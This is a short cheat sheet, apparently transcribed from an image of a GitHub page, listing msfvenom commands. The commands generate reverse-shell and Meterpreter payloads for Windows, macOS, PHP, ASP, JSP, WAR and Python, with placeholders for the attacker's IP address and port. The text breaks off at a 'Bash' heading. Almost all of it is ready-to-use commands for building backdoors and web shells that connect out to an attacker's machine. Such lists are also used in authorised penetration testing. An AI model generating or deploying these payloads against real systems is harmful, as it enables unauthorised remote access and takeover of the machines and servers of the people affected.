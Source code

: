 # Windows 

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe

# Mac 

 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho

# Web Payloads 

# PHP

 msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php

 cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php

# ASP 

 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp

# JSP 

 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp

# WAR 

 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war

# Scripting Payloads

# Python 

 msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py

# Bash 
